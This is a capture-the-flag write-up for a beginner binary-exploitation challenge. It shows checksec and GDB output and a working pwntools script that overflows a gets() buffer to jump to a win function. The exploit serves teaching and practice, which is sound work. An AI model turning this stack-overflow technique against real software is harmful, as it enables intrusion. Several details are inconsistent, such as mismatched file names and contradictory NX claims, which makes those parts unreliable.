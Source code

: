 ## CTF Challenge Writeup: Easy Peasy - Binary Exploitation

**Challenge Name:** Easy Peasy  
**Category:** Binary Exploitation  
**Points:** 100  
**Author:** BitR13x
**Difficulty:** Beginner

**Description:**
Welcome to "Easy Peasy," a beginner-level binary exploitation challenge! Your task is to exploit a vulnerable binary and gain control of the eip register. The flag is located in a file named "flag.txt" on the system. Read the contents of "flag.txt" and submit it to the CTF platform to claim your points.

**Challenge Binary:** [ezpz](https://traboda-arena-87.s3.amazonaws.com/files/attachments/ezpz_d016f92c-e33f-4ea0-9105-eb810bfe783d?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIA6GUFVMV6HO3NYL6Z%2F20230807%2Fap-south-1%2Fs3%2Faws4_request&X-Amz-Date=20230807T023644Z&X-Amz-Expires=3600&X-Amz-SignedHeaders=host&X-Amz-Signature=268122cbf4717f164e612e2846a87214dabf0890d59bdac6977cf0fc8475c8da)

**Hints:**

1. Check for buffer overflows or other memory-related vulnerabilities.
2. Use a debugger to analyze the behavior of the binary during execution.
3. Research about Return-Oriented Programming (ROP) and how it can be applied to bypass certain security mechanisms.

**Requirements:**

- Linux operating system (recommended: Ubuntu)
- Basic knowledge of assembly language and binary exploitation techniques.

**Writeup:**

**Step 1: Understanding the Binary:**
The first step is to download the challenge binary and understand its functionality. We can use tools like `file` and `checksec` to get some initial information about the binary:

```bash
$ file pzpz
easy_peasy: ELF 64-bit LSB executable, x86-64, ...

$ checksec ezpz
[*] '/home/kali/workspace/DeconstruCT.F-writeups/EasyPeasy/ezpz'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

The output indicates that it is a 64-bit ELF binary without full security measures (Partial RELRO and NX enabled) except canary, but with further analyzation with cutter showed that there is no worries about canary.

**Step 2: Initial Analysis:**
Run the binary to see its behavior:

```bash
$ ./ezpz
Please enter the super secret password to display the flag:
AAAAAA
Invalid password, try again
```

It seems that the binary is a simple program that asks for a password. By further investigation in cutter or ghidra, we can see there is also `win` function which should return flag. And also good to keep in mind that the addresses remain static.

**Step 3: Identifying Vulnerability:**
Next, we need to identify vulnerabilities that can be exploited to gain control of the program. Common vulnerabilities include buffer overflows, format string vulnerabilities, and unsafe input handling.

Since it's a beginner-level challenge, let's try entering a long input and see if it causes any unexpected behavior:

```bash
$ ./ezpz
Please enter the super secret password to display the flag:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./ezpz
```

The program accepts the input and report segmentation fault error, suggesting there might be a buffer overflow vulnerability and we are overwriting the execution. When taking closer look in cutter or ghidra, we can see that buffer is 32byte long also good to keep in mind.

**Step 4: Exploiting the Vulnerability:**
Let's use a debugger like GDB to further analyze the program and identify the exact location of the vulnerability.

```bash
$ gdb ./ezpz
(gdb)➤ disassemble vuln
Dump of assembler code for function vuln:
   0x0000000000401870 <+0>:	endbr64
   0x0000000000401874 <+4>:	push   rbp
   0x0000000000401875 <+5>:	mov    rbp,rsp
   0x0000000000401878 <+8>:	sub    rsp,0x20
   0x000000000040187c <+12>:	lea    rax,[rbp-0x20]
   0x0000000000401880 <+16>:	mov    rdi,rax
   0x0000000000401883 <+19>:	mov    eax,0x0
   0x0000000000401888 <+24>:	call   0x4124a0 <gets>
   0x000000000040188d <+29>:	nop
   0x000000000040188e <+30>:	leave
   0x000000000040188f <+31>:	ret

```

By analyzing the main function's assembly, we can identify the vulnerable `gets()` function and the potential exploitability.

**Step 5: Crafting the Exploit:**
With the vulnerability identified, we can now craft our exploit. Since this is a beginner-level challenge, it might not require advanced techniques like ROP.

To craft the payload I used pwntools and python:

```py
from pwn import *
from pwn import p64

ip = "ip_address"
port = "port"

#p = remote(str(ip),int(port)) # uncomment to connect on remote ip
p = process("./ezpz")
#gdb.attach(p, gdbscript='continue') # option to attach gdb

junk = b"A"*40

#? The JMP ESP instruction "0x625011af"
#? eip = "\xaf\x11\x50\x62"

# address of win function
eip = p64(0x004017ea) # translation into little-endian and 64bit address

#nops = "\x90" * 16
payload = junk + eip # + nops# + shellcode

p.recvline() # waiting on recv
p.sendline(payload) # send
p.interactive() # interactive shell
```

So straight forward, importing pwntools and creating process as `p`, now we know that buffer is 32byte long + 8 for a padding to move on stack. The stack should pop the address and keep executing this address instead.

When you are not sure how long is `buffer` and about the padding fuzzing is most of the time a good way.

Now we need an address of `win` function to know where to redirect execution, just use gdb.

```bash
(gdb)➤ disassemble win
Dump of assembler code for function win:
   0x00000000004017e5 <+0>:	endbr64
   0x00000000004017e9 <+4>:	push   rbp
   0x00000000004017ea <+5>:	mov    rbp,rsp
   0x00000000004017ed <+8>:	sub    rsp,0x50
   0x00000000004017f1 <+12>:	lea    rax,[rip+0x96810]        # 0x498008
   0x00000000004017f8 <+19>:	mov    rsi,rax
   0x00000000004017fb <+22>:	lea    rax,[rip+0x96808]        # 0x49800a
   0x0000000000401802 <+29>:	mov    rdi,rax
   0x0000000000401805 <+32>:	call   0x4121f0 <fopen64>
   0x000000000040180a <+37>:	mov    QWORD PTR [rbp-0x8],rax
...
```

We can't take the first two address so the stack is not overflowed and don't segfault before printing the flag.

**Step 6: Retrieve the Flag:**
Once the exploit is crafted, run the binary with the exploit payload to gain `flag.txt`.

```bash
$ ./bufferoverflow.py
[Flag will be printed here]
```

**Step 7: Writeup Submission:**
Document the steps you followed to exploit the binary, including the vulnerable function, the payload used, and how you gained control over the program.

Happy Hacking!
